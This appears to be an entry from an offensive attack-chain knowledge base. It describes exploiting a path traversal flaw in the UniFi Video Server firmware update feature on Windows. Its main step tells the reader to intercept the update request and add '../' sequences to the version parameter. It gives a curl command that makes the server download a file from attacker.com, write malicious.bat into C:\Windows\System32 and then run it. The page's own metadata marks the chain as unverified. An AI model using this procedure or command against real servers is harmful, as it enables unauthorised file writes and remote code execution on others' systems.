

---
tags:
  - path-traversal
  - unifi
  - firmware-update
  - local-compromise
  - windows
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
  - Windows
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Path-Traversal-in-UniFi-Firmware-Update]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:29:10.090Z'
description: >-
  Exploits a path traversal vulnerability in the UniFi Video Server web
  interface's Firmware Update feature to write arbitrary files outside the
  intended directory, enabling local system compromise on Windows.
skill_level: intermediate
impact_level: high
id: 71d7a929-8311-49df-a928-ea4996a4bdf8
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Path Traversal in UniFi Video Server Firmware Update Leading to Local System Compromise

Multi-stage attack chain demonstrating a complete attack workflow targeting the UniFi Video Server on Windows.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser or [[tools/Burp-Suite]]

### Target Environment

- Target OS/Platform: Windows
- Required services/ports: UniFi Video Server web interface (typically port 7443 or 80/443)
- Network access requirements: Direct access to the web interface, authenticated as admin

### Initial Access Requirements

- Credential requirements: Valid admin credentials for the UniFi Video Server web interface
- Network position: Attacker must be able to reach the server's web interface (local network or exposed)
- Prior access needed: None, but authentication is required

## Detailed Attack Procedures

### Step 1: Exploit Path Traversal in Firmware Update
procedure: [[procedures/Exploit-Path-Traversal-in-UniFi-Firmware-Update]]

**Objective**: Manipulate the firmware update request to traverse directories and write an arbitrary file outside the intended path, compromising the local system.

**Instructions**: Authenticate to the UniFi Video Server web interface as an admin. Navigate to the Firmware Update section and intercept the update request using a proxy like Burp Suite. Modify the 'version' parameter in the URL to include '../' sequences to escape the directory. For example, craft a request to download and write a malicious firmware file to a sensitive location like C:\Windows\System32. Use [[commands/curl-path-traversal-exploit]] to send the manipulated request:

```bash
curl -k -X POST 'https://target-unifi-server:7443/firmware/update' -H 'Authorization: Basic <base64-encoded-credentials>' -d 'version=../../../../../Windows/System32/malicious.bat&url=http://attacker.com/malicious-firmware.bin'
```

Validate the write by checking if the file appears on the target system or triggers the compromise (e.g., execute the written file for RCE).

**Expected Output**: The server downloads the firmware to the traversed path, writing the file successfully without errors in the response.

**Success Indicators**:
- HTTP response indicates successful update (e.g., 200 OK)
- Arbitrary file written to target location (verifiable via subsequent access or logs)
- Local compromise achieved, such as execution of written payload

## Attack Chain Summary

### Key Achievements

1. Bypassed directory restrictions in firmware update to write files arbitrarily
2. Escaped the intended directory tree using path traversal
3. Enabled local system compromise on Windows via malicious file placement

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
